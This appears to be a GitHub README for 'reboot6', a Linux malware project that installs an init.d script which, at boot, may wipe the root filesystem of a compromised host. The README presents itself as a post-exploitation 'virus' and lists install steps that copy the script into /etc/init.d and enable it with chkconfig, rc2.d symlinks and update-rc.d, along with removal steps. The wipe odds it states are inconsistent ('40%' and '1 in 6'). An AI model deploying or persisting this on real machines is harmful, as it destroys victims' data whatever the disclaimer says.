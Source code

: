 # reboot6

---
An init.d reboot virus that's inspired from Russian Roulette Linux.
This is a post exploit/virus that needs root privs and full access on the host/remote host in order for this to work.
What it does: creates an init process that has a 40% chance of wiping the root ( / ) of the file system durring the bootup (reboot) process.
Why 40%? Why not 100%? Because I'm not a evil person. And this gives the Victim machine the possibilty to remove the exploit/virus.
Like Russian Roulette (Linux), there is a 1 in 6 chance you lose.
*This software is intended only for educational purposes. USE AT YOUR OWN RISK.
The project author and all contributors cannot be held liable for damage or loss of data resulting from the use of this repository's code.*
---

To INSTALL the script:
# ALL SYSTEMS
```sh
cp reboot6.sh /etc/init.d/reboot6
```
# RHEL and Fedora
```sh
chkconfig --add /etc/init.d/reboot6
```
```sh
chkconfig --level 125 /etc/init.d/reboot6 on
```
```sh
ln -s /etc/init.d/reboot6 /etc/rc2.d/S35reboot6
```
# Debian and Deriatives
```sh
update-rc.d reboot6 defaults
```
# To UNINSTALL the script:
# RHEL and Fedora
```sh
chkconfig --level 125 /etc/init.d/reboot6 off
```
```sh
chkconfig --del /etc/init.d/reboot6
```
# Debian and Deriatives
```sh
update-rc.d reboot6 disable
```
```sh
update-rc.d reboot6 remove
```
# ALL SYSTEMS
```sh
rm /etc/init.d/reboot6
```
